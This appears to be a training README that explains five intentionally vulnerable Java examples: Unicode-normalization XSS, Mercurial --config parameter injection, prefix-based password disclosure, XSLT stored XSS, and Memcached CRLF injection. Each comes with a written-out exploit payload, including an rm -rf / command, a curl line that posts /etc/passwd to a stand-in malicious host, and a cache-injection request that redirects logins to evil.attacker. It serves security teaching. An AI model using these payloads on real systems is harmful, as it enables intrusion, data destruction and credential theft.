 # Contents

- [StoredXSS.java](#storedxssjava)
- [ParameterInjection.java](#parameterinjectionjava)
- [InformationDisclosure.java](#informationdisclosurejava)
- [StoredXSS_XSLT.java](#storedxss_xsltjava)
- [MemcachedInjection.java](#memcachedinjectionjava)


&nbsp;


## [StoredXSS.java](../../examples/insecure/java/StoredXSS.java)
Path: `examples/insecure/java/StoredXSS.java`

### Explanation
The application is monolithic and uses server-side rendering.
It fetches user comments from the backend, as we can see on line 7.
On line 9, it appears that the backend is encoding certain characters: `<` becomes `&lt;`, and `>` becomes `&gt;`.

The issue arises on line 10. While the context provided by the backend seems safe, the encoded data is passed to the Normalizer class after encoding. Essentially, the already-encoded data gets decoded. This results in the unwanted behavior of decoding the characters that should have remained encoded.

The Normalizer class likely normalizes Unicode characters, as the backend normalizes smaller or larger characters. Given this, it's reasonable to assume that the normalizer could be normalizing Unicode characters as well.

As a result, it's highly likely that a Unicode-based XSS payload will work here. For example:  
```bash
{'comment':'\ufe64script\ufe65alert(document.domain);\ufe64/script\ufe65'}
```


&nbsp;


## [ParameterInjection.java](../../examples/insecure/java/ParameterInjection.java)
Path: `examples/insecure/java/ParameterInjection.java`

### Explanation

This Java example demonstrates a **Parameter Injection vulnerability** in a Mercurial (hg) integration. The code attempts to prevent command injection through blacklisting but fails to secure the `--config` parameter, allowing arbitrary command execution.

**Insecure Blacklist Approach (Lines 8-9):**
   - Only blocks basic command injection attempts using `$(` and `backticks`
   - Does not address parameter-based attacks

#### Blocked Command Injection Attempt
```bash
hg identify http://example.com/$(id)   # Prevented by blacklist
hg identify http://example.com/`id`    # Prevented by blacklist
```

**Unsanitized Command Execution:**
- Directly incorporates user input into system commands.
- Critical Parameter in Mercurial (hg): --config allows overriding commands.

#### Parameter Injection
```bash
hg identify --config=alias.identify=!id
```
- **Mechanism:**
  1. Overrides the `identify` command alias via `--config`
  2. `!id` executes system commands through Mercurial's alias functionality
  3. Full command execution chain:
     ```
     hg → config parser → shell execution
     ```

**Attackers can execute:**
  ```bash
hg identify --config=alias.identify='!rm -rf /'  # Destructive commands
hg identify --config=alias.identify='!curl -X POST -d @/etc/passwd http://malicious.site' # Data exfiltration
  ```


&nbsp;

## [InformationDisclosure.java](../../examples/insecure/java/InformationDisclosure.java)

Path: `examples/insecure/java/InformationDisclosure.java`

### Explanation

The `/register` endpoint compares new user passwords against existing ones character by character.  
At **line 20**, the application checks if the new password **starts with** any existing password:

### **Issue:**
  - The application stores passwords **in plaintext** instead of hashing them. This makes direct comparisons possible, leading to **password disclosure.**
  - The use of `startsWith()` allows an attacker to **brute-force** the stored passwords **character by character.**

#### **Guessing Password Characters**
The attacker submits incremental passwords via the registration form:

1. `password=a` → No error → No password starts with "a"
2. `password=b` → **403 Error** → At least one password starts with "b"
3. `password=ba` → No error → The password does **not** continue with "ba"
4. `password=bb` → **403 Error** → The password starts with "bb"

#### **Extracting the Entire Password**
Repeating this process for each character reveals the complete password:

```markdown
Stored Password: "secret123"
Attacker's Attempts:
1. "s" → 403 (Correct first character)
2. "se" → 403 (Correct first two characters)
3. "sec" → 403
...
7. "secret12" → 403
8. "secret123" → Registration successful (Full password recovered)
```

&nbsp;

## [StoredXSS_XSLT.java](../../examples/insecure/java/StoredXSS_XSLT.java)

Path: `examples/insecure/java/StoredXSS_XSLT.java`

### Explanation

At line 52, the `comment.xslt` template converts user comments into HTML but **only validates the `href` attribute**, without restricting **the tag itself**.

**Issue:**  
  An attacker can inject a malicious tag like `<script>` with an `href` attribute, and XSLT **inserts it into the HTML without filtering**.

**Exploitation: Stored XSS via Malicious Comment**

```markdown
POST /comment HTTP/1.1
...
<script href="/">alert(document.cookie);</script>
```
 The `<script>` tag is processed by XSLT and inserted into the page.
 When a user visits the comments section, the `<script>` tag executes.
 **Impact:** The attacker's script runs, stealing cookies or performing further actions.


 &nbsp;

 ## [MemcachedInjection.java](../../examples/insecure/java/MemcachedInjection.java)

Path: `examples/insecure/java/MemcachedInjection.java`

### Explanation

On line 17, the `/` endpoint directly adds the user-supplied `lang` parameter to the Memcached query:

**Issue:**  
Since the lang parameter is used without validation, an attacker can inject new Memcached commands using **`\r\n` (CRLF)** characters.

**Exploitation**
```markdown
GET /?lang=en%0d%0aset%20auth_backend%200%200%2020%0d%0ahttp://evil.attacker HTTP/1.1
```
- **URL Decode:**  
  `%0d%0a` → `\r\n` (CRLF)
- **Memcached Command:**  
  ```markdown
  get welcome_en\r\n
  set auth_backend 0 0 20\r\n
  http://evil.attacker\r\n
  ```
**Impact:**  
  The value of the `auth_backend` key is changed to `http://evil.attacker`.

User sends a request with credentials to the `/login` endpoint:
   ```markdown
   POST /login HTTP/1.1
   ...
   {"username": "admin", "password": "s3cr3t"}
   ```
Server checks the `auth_backend` key:
   ```java
   String authBackend = mcc.get("auth_backend");  // "http://evil.attacker"
   ```
Credentials are sent to the attacker's server:
   ```markdown
   POST http://evil.attacker HTTP/1.1
   ...
   username=admin&password=s3cr3t
   ```

   &nbsp;
